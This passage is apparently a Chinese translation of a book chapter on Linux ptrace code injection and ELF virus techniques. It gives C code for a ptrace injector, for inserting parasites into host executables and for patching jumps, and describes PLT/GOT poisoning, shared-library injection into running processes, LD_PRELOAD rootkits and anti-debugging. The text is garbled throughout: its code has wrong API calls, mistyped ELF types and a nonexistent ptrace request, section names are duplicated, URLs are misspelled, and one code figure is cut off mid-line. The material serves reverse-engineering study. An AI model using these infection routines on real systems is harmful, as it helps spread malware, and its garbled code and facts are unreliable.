        fprintf(stderr, "Cannot open %s for reading: %s\n", maps, strerror(errno));
        return 1;
    }

    while (fgets(line, sizeof(line), fd)) {
        if (!strchr(line, "\n"))
            continue;

        for (i = 0, start = alloca(32), p = line; *p != ' '; i++, p++)
            start[i] = *p;

        start[i] = '\0';
        base = strtol(start, NULL, 16);
        break;
    }

    fclose(fd);
    return base;
}

uint8_t *create_fn_shellcode(void (*fn)(void), size_t len)
{
    size_t i;
    uint8_t *shellcode = (uint8_t *)malloc(len);
    uint8_t *p = (uint8_t *)fn;

    for (i = 0; i < len; i++)
        *(shellcode + i) = *p++;

    return shellcode;
}

int pid_read(int pid, void *dst, const void *src, size_t len)
{
    int sz = len / sizeof(void *);
    unsigned char *s = (unsigned char *)src;
    unsigned char *d = (unsigned char *)dst;
    long word;

    while (sz != 0) {
        word = ptrace(PTRACE_PEEKTEXT, pid, s, NULL);
        if (word == -1 && errno) {
            fprintf(stderr, "pid_read failed, pid: %d: %s\n", pid, strerror(errno));
            goto fail;
        }

        *(long *)d = word;
        s += sizeof(long);
        d += sizeof(long);
        sz--;
    }

    return 0;

fail:
    perror("PTRACE_PEEKTEXT");
    return 1;
}

int pid_write(int pid, void *dest, const void *src, size_t len)
{
    size_t quot = len / sizeof(void *);
    unsigned char *s = (unsigned char *)src;
    unsigned char *d = (unsigned char *)dest;
    long p;

    while (quot != 0) {
        p = ptrace(PTRACE_POKETEXT, pid, d, *(void **)s);
        if (p == -1) {
            perror("TRACE_POKETEXT");
            return 1;
        }
        s += sizeof(void *);
        d += sizeof(void *);
        quot--;
    }

    return 0;
}
```

### 主程序入口

```c
int main(int argc, char **argv)
{
    handle_t h;
    unsigned long shellcode_size = 0;
    int i, fd, status;
    uint8_t *executable, *origcode;
    struct stat st;
    Elf64_Ehdr *ehdr;

    if (argc < 3) {
        printf("Usage: %s\n", argv[0]);
        exit(1);
    }

    h.pid = atoi(argv[1]);
    h.exec_path = strdup(argv[2]);

    if (ptrace(PTRACE_ATTACH, h.pid) < 0) {
        perror("PTRACE_ATTACH");
        exit(1);
    }

    wait(NULL);

    h.base = get_text_base(h.pid);

    shellcode_size += 8;
    shellcode = create_fn_shellcode((void *)&injection_code, shellcode_size);

    origcode = alloca(shellcode_size);

    if (pid_read(h.pid, (void *)origcode, (void *)h.base, shellcode_size) < 0)
        exit(1);

    if (pid_write(h.pid, (void *)h.base, (void *)shellcode, shellcode_size) < 0)
        exit(1);

    if (ptrace(PTRACE_POKETREGS, h.pid, NULL, (void *)origcode) < 0) {
        perror("PTRACE_POKETREGS");
        exit(1);
    }

    if (ptrace(PTRACE_GETREGS, h.pid, NULL, NULL) < 0) {
        perror("PTRACE_GETREGS");
        exit(1);
    }

    // ... (rest of the logic continues based on context)
}
```

## 第 3 章：Ptrace 与反调试技术

你可能已经注意到，在 `code_inject.c` 中调试器似乎并不是传统的 shellcode（字节码）。这是因为 `uint64_t injection_code(void *)` 函数就是我们的 shellcode。由于它已经编译成机器指令，我们只是计算了它的长度并将其传递给 `pid_write()` 以注入进程中。在我看来，这种方法比包含一个字节码数组的常用方法更像是一种处理更优雅的方式。

### Ptrace 反调试技巧

`ptrace` 命令可以用作一种反调试技术。通常当黑客不希望他们的程序被轻易调试时，他们会包含某些反调试技术。在 Linux 中，一种流行的方法是使用 `ptrace` 配合 `PTRACE_TRACEME` 请求，让其跟踪自身的进程。

记住，一个进程同时只能有一个跟踪器，因此，如果一个进程已经被跟踪，而调试器尝试使用 `ptrace` 附加，系统会提示“Operation not permitted”（操作不允许）。`PTRACE_TRACEME` 可用于检查你的程序是否正在被调试。你可以使用下一节的代码来检查这一点。

### 你的程序正在被跟踪吗？

让我们来看一段使用 `ptrace` 查找你的程序是否已被跟踪的代码片段：

```c
if (ptrace(PTRACE_TRACEME, 0) < 0) {
    printf("This process is being debugged!!\n");
}
```

前面的代码之所以有效，是因为如果程序已经被跟踪了。因此，如果 `ptrace` 配合 `PTRACE_TRACEME` 返回错误值（小于 0），你就可以确定存在调试器并退出程序。

> 如果不存在调试器，那么 `PTRACE_TRACEME` 将执行成功，而现在程序正在跟踪自己，调试器任何跟踪该程序的尝试都将失败。因此，这是一个很好的反调试措施。

正如第 1 节“Linux 环境及其工具”所示，可以使用 `LD_PRELOAD` 环境变量来绕过这种反调试措施，通过触发程序加载一个虚假的 `ptrace` 命令，该命令无所做的返回 0。相反，如果一个程序对调试器没有任何影响，且 `ptrace` 反调试技巧没有使用 `libc ptrace` 包装器——而是创建了自己的包装器——那么 `LD_PRELOAD` 技巧将不起作用。这是因为该程序没有依赖任何库来访问 `ptrace`。

这里有一种通过编写自己的包装器来使用 `ptrace` 的替代方法。在示例中，我们将使用 x86_64 的 `ptrace` 包装器：

```c
#define SYS_PTRACE 101

long my_ptrace(long request, long pid, void *addr, void *data)
{
    long ret;

    __asm__ volatile(
        "mov %0, %%rdi\n"
        "mov %1, %%rsi\n"
        "mov %2, %%rdx\n"
        "mov %3, %%r10\n"
        "mov $SYS_PTRACE, %%rax\n"
        "syscall"
        : "=r"(ret)
        : "g"(request), "g"(pid), "g"(addr), "g"(data)
        : "rdi", "rsi", "rdx", "r10", "rax", "rcx", "r11", "memory"
    );

    return ret;
}
```

### 总结

在本章中，你学习了 `ptrace` 系统调用的重要性，以及它如何与病毒和内存感染结合使用。另一方面，它也是安全研究、逆向工程和高级热补丁技术的强大工具。

`ptrace` 系统调用将在本书的剩余部分中定期使用。让本章仅作为入门介绍即可。

在下一章中，我们将涵盖 Linux ELF 病毒感染的迷人世界以及病毒创建之前的工程实践。

## ELF 病毒技术 – Linux/Unix 病毒

病毒编写的艺术已经存在了几十年了。事实上，它一直追溯到 1981 年通过软盘游戏成功在野外发布的 Elk Clone Apple 病毒。从 80 年代中期到整个 90 年代，一直以来有各种秘密组织和黑客利用他们深奥的知识，在病毒和黑客电子杂志中设计、发布和刊登病毒（参见 http://vxheaven.org/lib/static/vdat/zines.htm）。

病毒编写的艺术通常对黑客和地下技术爱好者具有很大的启发，这并不是因为它们能够造成的破坏，而是因为设计它们面临的挑战以及所需的非常规编码技术。

### 解决方案：自包含代码编译

使用 `gcc -nostdlib` 选项编译你的初始病毒可执行文件。你也可以使用 `-fpic -pie` 进行编译以使可执行文件成为位置无关代码（PIC）。x86_64 机器上提供的 IP 相对寻址对于病毒编写者来说是一个非常棒的特性。创建自己的自定义函数，例如 `strcpy()` 和 `memccpy()`。当你需要诸如 `malloc()` 堆分配等高级功能时，你可以改用 `sys_brk()` 或 `sys_mmap()` 创建自己的例程。创建自己的系统调用封装器，例如，这里使用 C 语言和内联汇编展示了一个 `mmap` 系统调用的封装：

```c
#define NR_MMAP 9

void *mmap(unsigned long addr, unsigned long len, unsigned long prot,
           long flags, unsigned long fd, unsigned long off)
{
    unsigned long mmap_fd = fd;
    unsigned long mmap_off = off;
    unsigned long mmap_flags = flags;
    unsigned long ret;

    asm volatile(
        "mov %0, %%rdi\n"
        "mov %1, %%rsi\n"
        "mov %2, %%rdx\n"
        "mov %3, %%r10\n"
        "mov %4, %%r8\n"
        "mov %5, %%r9\n"
        "mov %6, %%rax\n"
        "syscall\n"
        : "=a"(ret)
        : "g"(addr), "g"(len), "g"(prot), "g"(mmap_flags), "g"(mmap_fd), "g"(mmap_off), "i"(NR_MMAP)
        : "rdi", "rsi", "rdx", "r10", "r8", "r9", "rcx", "r11", "memory"
    );

    return (void *)ret;
}
```

一旦你有了调用 `mmap()` 系统调用的封装器，就可以创建一个简单的 `malloc` 例程。

`malloc` 函数用于在堆上分配内存。我们的微型 `malloc` 函数为每次分配使用一个内存映射段，虽然效率很低，但对于用例来说已经足够了：

```c
void *malloc(size_t len)
{
    void *mem = mmap(NULL, len, PROT_READ|PROT_WRITE,
                     MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

    if (mem == (void *)-1)
        return NULL;

    return mem;
}
```

### 字符串存储的复杂性

这个挑战与最后一部分关于自包含代码的内容相当相似。在你的病毒代码中处理字符串时，你可能会有：

```c
const char *name = "elfmaster";
```

你可能希望避免像前面那样的代码。因为编译器会将 `elfmaster` 数据存储在 `.rodata` 段中，然后通过其地址引用字符串。一旦病毒被注入到另一个程序内部，该地址将失效。这个问题与我们之前讨论的硬编码地址问题紧密相关。

### 解决方案：栈上存储字符串

使用栈存储字符串，以便它们在运行时动态分配：

```c
char name[10] = {'e', 'l', 'f', 'm', 'a', 's', 't', 'e', 'r', '\0'};
```

另一个我最近在为 64 位 Linux 构建 Seksis 病毒时发现的技巧是，通过 `gcc` 的 `-N` 选项将文本段和数据段合并为一个段，即可读-写-执行（RWX）。这非常好，因为全局数据和只读数据（例如 `.data` 和 `.rodata` 段）都合并到了一个段中。这允许病毒在感染阶段简单地注入整个段，其中包含了来自 `.rodata` 等字符串字面量。这种技术结合 IP 相对寻址，允许病毒使用传统的字符串字面量进行编写：

```c
char *name = "elfmaster";
```


# ELF 病毒技术 - Linux/Unix 病毒

这种字符串可以在病毒代码中使用，并且可以完全避免在栈上存储字符串的方法。需要注意的是，将所有字符串存储在栈外的全局数据中会导致病毒寄生虫总体体积增加，这有时是不受希望的。`Seksis` 病毒最近已发布，可以在 `http://www.bitlackacks.org/#ssis` 获取。

## 寻找存储寄生代码的合法空间

这是编写病毒时需要回答的大问题之一：有效负载（病毒主体）将注入到哪里？换句话说，寄生虫将位于主机二进制文件的哪个位置？可能性取决于二进制格式。在 `ELF` 格式中，有很多可以注入代码的地方，但它们都要求对不同的 `ELF` 头部值进行正确调整。

挑战并不一定在于找到空间，而在于调整 `ELF` 二进制文件以便你使用该空间，同时保持可执行文件看起来相当正常，并紧密遵循 `ELF` 规范以确保其仍能正常执行。在修补二进制文件和修改其布局时，必须考虑许多因素，例如页对齐、偏移量调整和地址调整。

## 解决方案

在创建新的二进制补丁方法时，请仔细阅读 `ELF` 规范，确保你保持在程序执行所需的边界之内。在下一节中，我们将讨论一些病毒感染的技术。

### 将执行控制流传递给寄生虫

这是另一个常见挑战，即如何将主机可执行文件的控制流传递给寄生虫。在很多情况下，调整 `ELF` 头部中的入口点（`entry point`）指向寄生虫代码就足够了。这是可靠的，但也明显。如果入口点已被修改指向寄生虫，那么我们可以使用 `readelf -h` 查看入口点并立即知道寄生虫代码的位置。

## 解决方案

如果你不想修改入口点地址，可以寻找一个可以插入/修改跳转到寄生虫代码的地方，例如插入 `jmp` 或覆盖函数指针。`.ctors` 或 `.init_array` 段是一个极好的地方，它们包含函数指针。`.dtors` 或 `.fini_array` 段同样适用，如果你不在意寄生虫在常规程序代码执行后运行（而不是之前）。

### ELF 寄生虫感染方法

二进制文件中有很多可以放置代码的地方，对于任何复杂的病毒，寄生虫至少会有几千字节，并需要增大主机可执行文件的大小。在 `ELF` 执行文件中没有大量的代码洞（`code caves`）（如 `PE` 格式），因此你不太可能在现有代码槽（如代码）中注入极少量的 `shellcode`。

#### Silvio 填充法

这种感染方法由 `Silvio` 构，后出现在各种 `Linux` 病毒中。详细信息见 `VX` 论文（`http://vxheaven.org/lib/vsc01.html`），所以如果想扩展阅读，尽管查阅。

##### 示例

这种感染技术被 `ELF` 病毒实现的良好示例是我的 `ipv` 病毒，它编写于 2008 年。为了效率考虑，我不会在这里粘贴代码，但可以在 `http://www.bitlackacks.org/projects/ipv.c` 找到。

#### 调整 ELF 头部

```c
#define JMP_PATCH_OFFSET 1 // 我们在 shellcode 中偏移多少字节处进行补丁

/* movl $addr, %eax; jump *eax; */

char parasite_shellcode[] = {
    "\xb8\x00\x00\x00"
    "\xff\xe0"
};
```

```c
int silvio_text_inject(char *host, void *base, void *payload,
    size_t host_len, size_t parasite_len)
{
    El64_Addr o_entry;
    El64_Addr o_text_filesz;
    El64_Addr parasite_vaddr;
    uint64_t end_of_text;
    int found_text;
```

```c
uint8_t *mem = (uint8_t *)base;
uint8_t *parasite = (uint8_t *)payload;
El64_Ehdr *ehdr = (El64_Ehdr*)mem;
El64_Phdr *phdr = (El64_Phdr*)mem[ehdr->e_phoff];
El64_Shdr *shdr = (El64_Shdr*) &mem[ehdr->e_shoff];
```

```c
/*
 * 调整程序头
 */

for (found_text = 0, i = 0; i < ehdr->e_phnum; i++) {
    if (phdr[i].p_type == PT_LOAD) {
        if (phdr[i].p_offset == 0) {
            o_text_filesz = phdr[i].p_filesz;
            end_of_text = phdr[i].p_offset + phdr[i].p_filesz;
            parasite_vaddr = phdr[i].p_vaddr + o_text_filesz;
            phdr[i].p_filesz += parasite_len;
            phdr[i].p_memsz += parasite_len;
            for (j = i + 1; j < ehdr->e_phnum; j++)
                if (phdr[j].p_offset > phdr[i].p_offset + o_text_filesz)
                    phdr[j].p_offset += PAGE_SIZE;
            break;
        }
    }
}
for (i = 0; i < ehdr->e_shnum; i++) {
    if (shdr[i].sh_add > parasite_vaddr)
        shdr[i].sh_offset += PAGE_SIZE;
    else if (shdr[i].sh_add + shdr[i].sh_size == parasite_vaddr)
        shdr[i].sh_size += parasite_len;
}

/*
注意： 下文是 insert_parasite() 源代码
*/

insert_parasite(host, parasite_len, host_len,
    base, end_of_text, parasite,
    JMP_PATCH_OFFSET);
return 0;
}
```

#### 插入寄生代码

```c
#define TMP "/tmp/.infected"

void insert_parasite(char *hosts, size_t psize, size_t hsize,
    uint8_t *mem, size_t end_of_text, uint8_t *parasite, uint32_t
    jmp_code_offset)
{
    // 注意：jump_code_offset 包含了 payload shellcode 中的
    // 偏移量，该位置带有跳转指令，
    // 使用原始偏移量进行补丁，以便控制
    // 流可以传回
    // 宿主程序。

    int ofd;
    unsigned int c;
    int i, t = 0;

    open (TMP, O_CREAT | O_WRONLY | O_TRUNC,
        S_IRUSR|S_IWUSR|S_IXUSR);
    write (ofd, mem, end_of_text);
    *(uint32_t *) &parasite[jmp_code_offset] = old_e_entry;
    write (ofd, parasite, psize);
    lseek (ofd, PAGE_SIZE - psize, SEEK_CUR);
    mem += end_of_text;
    unsigned int text = end_of_text + PAGE_SIZE;
    unsigned int last_chunk = hsize - end_of_text;
    write (ofd, mem, last_chunk);
    rename (TMP, hosts_name);
    close (ofd);
}
```

##### 以上函数的示例

```c
uint8_t *mem = mmap_host_executable("./some_prog");
silvio_test_infection("./some_prog", mem, parasite_shellcode,
    parasite_len);
```

#### LPV 病毒

`LPV` 病毒使用了 `Silvio` 填充感染技术，专为 32 位 `Linux` 系统设计。可以在 `http://www.bitlacksys.org/#lpv` 下载。

## Silvio 填充感染的用用例

本文讨论的 `Silvio` 填充感染方法非常流行并被广泛使用。如前所述，该方法在 32 位 `UNIX` 系统上的实现受限于 4,096 字节的寄生虫。在使用了大页的较新系统上，这种感染更有潜力，并允许更大的感染（高达 `0x200000` 字节）。我曾个人使用过这种方法进行寄生虫感染和可重定位代码注入，尽管我已经放弃了它，转而使用后续将讨论的“反向文本感染”。

### 反向文本感染

这种感染方法的思想最初由 `Silvio` 在他的 `UNIX` 病毒论文中提出并记录，但并没有提供一个可运行的 `POC`。此后，我将其扩展为一种算法，适用于各种 `ELF` 破解项目，包括我的软件保护产品 `Mayas Veil`（详情见 `http://www.bitlacksys.org/#maya`）。

这种方法背后的原理是反向扩展文本段（`text segment`）。通过这种方式，文本段的虚拟地址将减少 `PAGE_ALIGN(parasite_size)`。由于现代 `Linux` 系统中（根据 `/proc/sys/vm/map_addr`）允许的最小映射为 `0x1000`，虚拟地址只能扩展到那里。幸运的是，64 位系统上的默认文本虚拟地址通常为 `0x400000`，这为 `0x3ff000` 字节的寄生虫留出了空间（减去另一个 `sizeof(Elf_Ehdr)`）。

计算主机文件最大寄生虫大小的完整公式为：

```c
max_parasite_length = orig_text_vaddr - (0x1000 +
    sizeof(Elf_Ehdr))
```

在 32 位系统上，默认文本虚拟地址为 `0x0804000`，相比 64 位系统留下了更大的寄生虫空间：

```c
(0x0804000 - (0x1000 + sizeof(Elf_Ehdr)) = (parasite
len)
```


可选地，添加一个伪命名的节头来容纳你的寄生代码。否则，如果有人运行 `/usr/bin/strip <infected program>`，由于该寄生代码没有被节头说明，它将被完全移除。

6. 通过创建一个新的二进制文件来反映更改并包含寄生代码，从而插入寄生代码。

数据段同样适用于不一定针对病毒的场景。例如，在编写壳器（`packers`）时，将加密的可执行文件存储在存根（`stub`）执行文件的数据段中通常是有用的。

### PT_NOTE 到 PT_LOAD 的转换感染方法

这种方法非常强大，虽然容易被检测，但实现相对简单，并且能提供可靠的代码插入。其思路是将 `PT_NOTE` 段转换为 `PT_LOAD` 类型，并将其位置移动到所有其他段之后。当然，你也可以通过创建一个新的 `PT_LOAD` phdr（程序头头）条目来创建一个全新的段，但由于程序在没有段的情况下仍然可以执行，你完全可以将其转换为 `PT_LOAD`。我个人没有为了病毒实现实现过这种技术，但我在 `Quenya v0.1` 中设计了一个功能，允许你添加新段。我还分析了 `Japanic` 编写的 `Retaliation Linux` 病毒，该病毒使用了这种方法进行感染：

`http://www.bitlackskeys.org/#retaliation`



`PT_LOAD` 感染没有严格的规则。正如此处提到的，你可以将 `PT_NOTE` 转换为 `PT_LOAD`，或者创建一个全新的 `PT_LOAD` phdr 和段。

#### PT_NOTE 到 PT_LOAD 转换感染的算法

- 定位数据段 phdr：
  1. 找到数据段结束的地址：
     ```ds
     ds_end_addr = phdr->p_vaddr + p_memsz
     ```
  2. 找到数据段结束的文件偏移量：
     ```ds
     ds_end_off = phdr->p_offset + p_filesz
     ```
  3. 获取可加载段的对齐大小：
     ```ds
     align_size = phdr->p_align
     ```

- 定位 `PT_NOTE` phdr：
  1. 将 phdr 转换为 `PT_LOAD`：
     ```ds
     phdr->p_type = PT_LOAD;
     ```
  2. 为其分配此起始地址：
     ```ds
     ds_end_addr + align_size
     ```
  3. 为其分配一个大小以反映你的寄生代码的大小：
     ```ds
     phdr->p_filesz += parasite_size
     phdr->p_memsz += parasite_size
     ```

- 使用 `ehdr->e_shoff += parasite_size` 来考虑新段。
4. 通过写入新的二进制文件来反映 `ELF` 头部更改和新段，插入寄生代码。

> 记住，节头表位于寄生段之后，因此 `ehdr->e_shoff += parasite_size`。


### 感染控制流

在上一节中，我们研究了通过修改感染程序的入口点将寄生代码引入二进制文件并执行的方法。在向二进制文件引入新代码方面，这些方法效果极佳；事实上，它们对于二进制补丁（`binary patching`）非常有用，无论是出于合法的工程原因还是为了病毒。修改入口点在许多情况下也非常合适，但它相当隐蔽，而且在某些情况下，你可能不希望你的寄生代码在入口处执行。也许你只想让这个函数成为单函数，并将其与感染文件内的另一个函数进行二进制内联（`binary with`）；这被称为函数劫持（`function hijacking`）。当打算追求更复杂的感染策略时，我们必须意识到 `ELF` 程序中所有可能的感染点。这就是事情开始变得有趣的地方。让我们看看 `ELF` 程序中常见的感染点：



如图所示，在 `ELF` 程序中有六个区域可以以某种方式通过 `Linux/Unix` 病毒来修改控制流。

## Linux/Unix 病毒技术

### 直接 PLT 感染

不要将此与混淆。`PLT`（过程链接表）和 `GOT`（全局偏移表）在动态链接期间紧密工作。在 `ELF` 格式中，`.dtors` 和 `.dtors` 是两个独立的节，尽管我们在第二章中学习过它们。为了完整性，我将进行回顾：大多数可执行文件都是通过链接 `libc` 编译的，`gcc` 在编译的可执行文件和共享库中包含了 `libc` 初始化代码。`.dtors` 和 `.dtors` 段（有时称为 `.init_array` 和 `.init_array`）包含初始化或终结函数的函数指针。`.dtors/.fini_init_array` 函数指针在 `main()` 调用之前就会触发。这意味着可以通过重写其中一个函数指针的正确地址将控制权转移到病毒或寄生代码。由于 `.plt` 段是只读的，这种方法对于漏洞利用（例如重写 `GOT`）是不可行的，但在讨论直接感染时，我们并不是在谈论 `GOT`，而是实际上在讨论通过寄生代码来控制流。以下是 `fopen()`` 的感染代码：

```
000402350 <init>
402350: ff 25 9a 00 00 00
402356: 68 01 00 00 00
40235b: e9 30 fe ff ff
402190 <plt>
```

注意，第一个指令是一个跳转。这种跳转是六字节的：为了让寄生代码运行的指令：

```
push $00
ret
```

### 函数跳转

这种感染类型属于直接 `PLT` 感染的最后一类，但为了术语准确，让我描述一下通常所说的函数跳转板（`trampoline`）——对于原函数，这通常是可行的。寄生代码通常是将原始函数的前五个字节替换为某种改变控制流的跳转指令：

```
movl $addr, %eax
jmp *%eax
push $<addr>
ret
```


然后调用寄生函数而不是预期的函数。如果寄生函数需要调用原始函数（这通常如此），那么寄生函数的工作是将原始函数的前五个字节替换为原始指令，调用它，然后将跳转代码拷贝回处。这种方法既可以应用于二进制文件，也可以应用于内存。这种技术通常用于劫持内核函数，尽管在线程环境中并不安全。

### 重写 .dtors/.dtors 函数指针

这种方法在这一章前面讨论将执行流转移到寄生代码时已经提到过。为了完整性，我将对其进行回顾：例如，堆溢出漏洞（例如 Once upon a free：http://phacker.org/issues/57/9.html）可能允许攻击者向任何位置写入四个字节，并且通常会重写 `.dtors` 函数指针以指向 shellcode 的地址。

### GOT – 全局偏移表投毒或 PLT/GOT 重定向

同样是 PLT/GOT 感染，GOT 投毒可能是劫持共享库函数的最佳方法。它相对容易，并允许攻击者充分利用 GOT，而 GOT 是一个指针表。由于我们在第2 章《ELF 二进制文件格式》的动态链接部分深入讨论过 GOT，因此我将不再详细阐述其用途。这种技术可以通过直接感染二进制文件的 GOT，或简单地在内存中进行来实现。我在 2009 年写过一篇关于在内存中执行此操作的论文，名为《通过 GOT 投毒实现的现代 ELF Runtime》，地址位于 http://vxachem.org/lib/vrn0.html，文中解释了如何在该运行时过程中执行此操作，并提供了一种可以绕过某些实施的安全限制的技术。

### 感染数据结构

可执行文件的数据段包含全局变量、函数指针、函数结构体。这开启了一个攻击者向量，攻击者可能指定特定的可执行文件，因为每个程序在数据段中的布局都不同：不同的变量、结构体、函数指针等。尽管如此，如果攻击者了解布局，他们就可以通过覆盖函数指针和其他数据来改变可执行文件的行为。这一个很好的例子是 `data/.bss` 缓冲区溢出。正如我们在第2 章《ELF 二进制文件格式》中学到的，`.bss`是在运行时分配的（在数据段的末尾），并包含未初始化的全局变量。如果有人能够溢出一个包含要执行的可执行文件路径的缓冲区，那么就可以控制运行哪个可执行文件。

### 函数指针覆盖

这种技术实际上属于最后一种（感染数据结构），也属于与 `.dtors/.dtors` 函数指针覆盖相关的技术。为了完整性，我将其列为一种独立的技术，但本质上，这些指针将位于数据段和 `.bss` 中（初始化/未初始化的静态数据）。正如我们已经讨论过的，人们可以覆盖函数指针来改变控制流，使其指向寄生程序。

## 进程内存病毒与 Rootkit – 远程代码注入技术

到为止，我们已经涵盖了用寄生代码感染 ELF 二进制文件的基础知识，这足够让你忙碌好几个月的编码和实验了。然而，如果没有对感染进程内存进行彻底讨论，本章就是完整的。正如我们所学的，内存中的程序与磁盘上的程序没有太大区别，我们可以使用 `ptrace` 系统调用访问并操纵运行中的程序，正如第3 章《Linux 进程追踪》所示。进程感染比二进制文件感染要隐蔽得多，因为它们不修改磁盘上的任何内容。我们讨论过的所有 ELF 感染点都与进程感染有关，尽管注入实际寄生代码的方法与处理 ELF 二进制文件不同。由于代码是在内存中的，我们必须将寄生代码获取到内存中，可以通过 `PTRACE_POKETEXT` 直接注入（覆盖现有代码），或者更优地，通过注入 shellcode 来创建一个新的内存映射以存储代码。这就是共享库注入等技术大显身场的地方。在本章的剩余部分中，我们将讨论一些远程注入（向另一个进程注入代码）的方法。

## 共享库注入 – .so 注入/ET_DYN 注入

这种技术可以将共享库（无论是否恶意）注入到现有进程的地址空间。一旦库被注入，你可以使用之前描述的感染点之一，通过 PLT/GOT 重定向、函数隧道等将控制流重定向到共享库。挑战在于将共享库放入进程中，这可以通过多种方式实现。

### 使用 LD_PRELOAD 进行 .so 注入

是否可以将这种方法称为向进程注入共享库的方法是有存在争议的，因为它对现有进程不起作用，而是在程序执行时加载共享库。这是通过设置 `LD_PRELOAD` 环境变量实现的，使得所需的库在任何其他库之前加载。这可以是测试后续技术（如 PLT/GOT 重定向）的好方法，因为这些技术并不隐蔽，且对现有进程不起作用。

### 插图 4.7 – 使用 LD_PRELOAD 注入 wicked.so.1

```
$ export LD_PRELOAD=/tmp/wicked.so.1
$ /usr/local/some_daemon
$ cp /lib/x86_64-linux-gnu/libm-2.19.so /tmp/wicked.so.1
$ export LD_PRELOAD=/tmp/wicked.so.1
$ /usr/local/some_daemon &
$ pmap `pidof some_daemon` | grep 'wicked'
00007ffa731e000 1044K r-x-- wicked.so.1
00007ffa7423000 2044K ----- wicked.so.1
00007ffa7622000 4K r---- wicked.so.1
00007ffa7623000 4K rw---- wicked.so.1
```

如你所示，我们的共享库 `wicked.so.1` 被映射到了进程地址空间中。业余人员倾向于使用这种技术创建劫持 `glibc` 函数的小型用户态 rootkit。这是因为预加载库的优先级高于任何其他共享库，所以如果你将你的函数命名为与 `open()` 等 glibc 函数相同，那么你预加载的版本就会执行。这是一种劫持 `glibc` 函数的廉价粗暴的方法。

### 使用 open()/mmap() shellcode 进行 .so 注入

这通过向现有进程注入 shellcode（使用 `ptrace`）将任何文件（包括共享库）加载到进程空间的方法。我们在第3 章《Linux 追踪》中演示了这一点，使用我们的 `code_inject.c` 示例将共享库加载到内存中。使用这种技术，大多数你想加载的共享库将无法正常执行，因为 `open()/mmap()` 不处理重定位。此时，你可以选择通过解析共享库并在内存中应用重定位来手动处理。幸运的是，有一个更容易解决方案，我们将在下一步讨论。

### 使用 dlopen()/shellcode 进行 .so 注入

`dlopen()` 函数用于动态加载执行文件未链接的共享库。开发者经常使用这种方法为他们的应用程序创建插件。程序可以调用 `dlopen()` 按需加载共享库，并调用动态链接器为你完成所有的重定位。然而，存在一个问题：大多数进程无法使用 `dlopen()`，因为它存在 `libdl.so.2` 中。幸运的是，这个问题也有解决方案：几乎每个程序默认都映射了进程空间（除非显式编译），并且 `libc.so` 有一个等于 `dlopen()` 的函数 `__libc_dlopen_mode()`。这并不是很大的障碍。在使用之前，你必须先通过获取目标进程中 `libc.so` 的基地址、解析 `__libc_dlopen_mode()` 符号，然后将符号值 `st_value`（参考第2 章《ELF 二进制文件格式》）加到 `libc` 的基地址上，获取 `__libc_dlopen_mode()` 的最终地址。然后你可以用 C 或汇编编写 shellcode，调用 `__libc_dlopen_mode()` 将你的共享库加载到进程中，带有完整的重定位并准备执行。

`__libc_dlsym()` 函数随后可用于解析共享库中的符号。有关 `dlopen()` 和 `dlsym()` 的更多详细信息，请参阅 `dlopen` 手页。

### 图 4.8 – 调用 __libc_dlopen_mode() 的 C 代码

```c
/* 取自 Saruman's launcher.c */

#define glibc internal dlopen flag

#define RTLD_KEYWORDS 0x8000000

#define BREAKPOINT asm volatile__("int3")

#define RETURN_VALUE (x) asm volatile__(

```

值得注意的是，`dlopen()` 也会加载 PIE 可执行文件。这意味着你可以将一个完整的程序注入到进程中并运行。事实上，你可以在单个进程中运行多个程序。这是一种不可置信的反取证技术，当使用线程注入时，你可以并发运行所有它们，使它们同时执行。Saruman 是我设计的一个用于实现此点的 PoC（概念验证）软件。它使用了两种注入方法：带有手动重定位的 `open()/mmap()` 方法，以及 `__libc_dlopen_mode()` 方法。你可以在我的网站 http://bitlackacks.org/#saruman 找到该软件。

### 通过操纵 VDSO 进行注入

这是我在论文 [http://vxhaven.org/lib/vdso.html]( 中讨论的技术。其思想是操纵虚拟共享对象（VDSO），在 Linux 内核 2.6 版本中，VDSO 被映射到每个进程空间中。VDSO 包含了加速系统调用的代码，可以直接从 VDSO 调用它们。技巧是使用 `trace` 定位调用系统调用（syscall）的代码，一旦落到该代码它就会中断。攻击者随后可以加载所需的系统调用号，并将参数存储在其他寄存器中。这出奇地简单，并可以用于调用 `open()/mmap()` 而无需注入任何壳代码（shellcode）。这对于防止用户向文本段（text segment）注入代码非常有用。我建议阅读我的论文以获取更详细的论述。

### 文本段注入

这是一种简单的技术，除了注入壳代码外没有其他用处，注入壳代码在完成后完成后应被替换为原始代码。另一个想要直接修改文本段的原因可能是为了创建跳转板（trampolines），我们在本章的早些部分讨论过，或者直接修改 `.plt`。然而，就代码注入而言，最好是将代码加载到进程中或创建一个可以存储代码的新映射；否则，文本段很容易被检测到。

### 可执行文件注入

如之前所述，`dlopen()` 可以将 PIE 可执行文件加载到进程中，我甚至包含了一个 Saruman 的链接，它允许在现有进程中运行程序以应对取证措施。但注入 EXEC 类型的可执行文件呢？除了动态链接外，它不提供任何重定位信息。这意味着向现有进程注入普通的可执行文件最终是不可靠的，尤其是在注入更复杂的程序时。尽管如此，这种技术的 PoC 名为 elfemon，它可以让可执行文件劫持控制权，并在完成后将控制权传回主机进程。可以在 http://bitlackacks.org/projects/elfemon.tgz 找到该示例。

### 可重定位代码注入

这种方法与共享库注入非常相似，但与 `dlopen()` 不兼容。`ELF_REL` 文件是可重定位代码，类似于 `ELF_DY`（`.so` 文件），它们并不是为了作为单文件执行设计的；正如我们在第 2 章“ELF 格式”中讨论的，它们旨在链接到可执行文件或共享库中。然而，这并不意味着你不能注入它们、重定位它们并执行它们的代码。这可以使用 `dlopen()` 之外的任何技术完成。`open()/mmap` 是足够了，但要求手动处理重定位，这可以通过 `ptrace` 完成。在第 2 章“ELF 格式”中，我们提供了我设计的软件（名为 Quenya）中的重定位代码示例。它演示了在将对象文件注入到可执行文件时如何处理重定位。在将对象注入进程时也可以使用相同的原理。

## ELF 反调试和加壳技术

在下一章“破解软件保护”中，我们将讨论软件保护。我们将讨论 ELF 可执行文件的加密和加壳。这种反调试技术使得分析变得困难。在触发断点时，程序会设置一个全局变量。当它落到这个位置时，断点就会中断。

### PTRACE_TRACEME 技术

这种技术利用了程序只能被一个跟踪器跟踪的事实。大多数调试器使用 `ptrace`，其思想是程序可以跟踪自己。

### 图 4.9 – 带有 PTRACE_TRACEME 的调试示例

```c
void anti_debug(void)
{
    if (ptrace(PTRACE_TRACEME, 0, 0, 0) < 0) {
        printf("调试器已连接！\n");
        kill(getpid());
        exit(0);
    }
}
```

程序通过检查全局变量是否设置为 1 来判断。退出。

